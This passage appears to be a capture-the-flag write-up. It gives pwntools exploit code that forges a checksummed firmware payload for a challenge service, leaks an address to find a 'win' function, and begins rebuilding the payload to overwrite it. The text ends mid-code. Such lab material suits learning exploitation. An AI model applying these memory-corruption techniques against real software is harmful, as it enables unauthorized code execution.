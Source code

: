 	```
	header = b'FW12'
	skip = b'\x38\x00\x33\x36'
	r32 = b'\x32\x01' * 32
	tail = b'\x35\x43'
	
	combined = skip + r32 + tail
	total_sum = sum(combined)
	r6 = p8(total_sum % 256)
	print('r6: ',r6.hex())
	checksum = b'\x00' + r6
	
	padding = b'\x00' * (512 - 4 - 2 - 4 - 64 - 2)
	payload = header + checksum + skip + r32 + tail + padding
	
	```
* update firmware by above payload

	```
	p.sendlineafter(b">> 6447 Nuclear Terminal Facility (Medical Purposes Only)", b"U")
p.sendlineafter(b'>', payload)
p.recvline()
	```

* execute firmware get run runc addr

	```
	p.sendline(b'E')
# addr = p.recvline().decode('latin-1')
data = p.recvlines(11)
for d in data:
    if b'\x01' in d:
        hex_string = d.split(b'\x01')[-1].hex()
        reversed_bytes = ''.join(reversed([hex_string[i:i + 2] for i in range(0, len(hex_string), 2)]))
        address = f"0x{reversed_bytes}"
        win_int_addr = int(address, 16) - 0x222
        win_addr = p64(win_int_addr)
        print('win_addr: ', [bytes([byte]) for byte in win_addr])
	```
	
* overwrite to win func addr
	
	* update payload
	
		```
		header = b'FW12'
		skip = b'\x38\x00\x33\x36'
		need_to_win = b''.join(b'\x32' + bytes([byte]) for byte in win_addr)
		tail = b'\x35\x43'
		
		combined = skip + need_to_win + tail
		total_sum = sum(combined)
		r6 = p8(total_sum % 256)
		print('r6: ',r6.hex())
		checksum = b'\x00' + r6
		